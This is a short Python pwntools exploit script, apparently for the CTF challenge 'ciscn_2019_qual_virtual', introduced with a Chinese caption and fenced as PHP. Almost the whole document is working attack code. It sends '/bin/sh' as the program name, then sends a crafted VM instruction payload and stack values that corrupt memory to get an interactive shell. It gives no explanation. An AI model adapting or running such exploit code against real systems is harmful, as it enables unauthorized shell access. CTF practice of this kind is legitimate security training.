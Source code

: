 exp如下
-----

```php
#!/usr/bin/python3
from pwn import *
import random
import os
import sys
import time
from pwn import *
from ctypes import *

#--------------------setting context---------------------
context.clear(arch='amd64', os='linux', log_level='debug')

#context.terminal = ['tmux', 'splitw', '-h']
sla = lambda data, content: mx.sendlineafter(data,content)
sa = lambda data, content: mx.sendafter(data,content)
sl = lambda data: mx.sendline(data)
rl = lambda data: mx.recvuntil(data)
re = lambda data: mx.recv(data)
sa = lambda data, content: mx.sendafter(data,content)
inter = lambda: mx.interactive()
l64 = lambda:u64(mx.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
h64=lambda:u64(mx.recv(6).ljust(8,b'\x00'))
s=lambda data: mx.send(data)
log_addr=lambda data: log.success("--->"+hex(data))
p = lambda s: print('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))

def dbg():
    gdb.attach(mx)

#---------------------------------------------------------
# libc = ELF('/home/henry/Documents/glibc-all-in-one/libs/2.35-0ubuntu3_amd64/libc.so.6')
filename = "./ciscn_2019_qual_virtual"
mx = process(filename)
#mx = remote("0192d63fbe8f7e5f9ab5243c1c69490f.q619.dg06.ciihw.cn",43013)
elf = ELF(filename)
libc=elf.libc
#初始化完成---------------------------------------------------------\
dbg()
rl("Your program name:\n")
sl(b'/bin/sh\x00')
rl("Your instruction:\n")
payload=b'push push save push load push add push save'
sl(payload)
rl("Your stack data:\n")
content=b'4210896 -3 -21 -193680 -21'
sl(content)
inter()
```

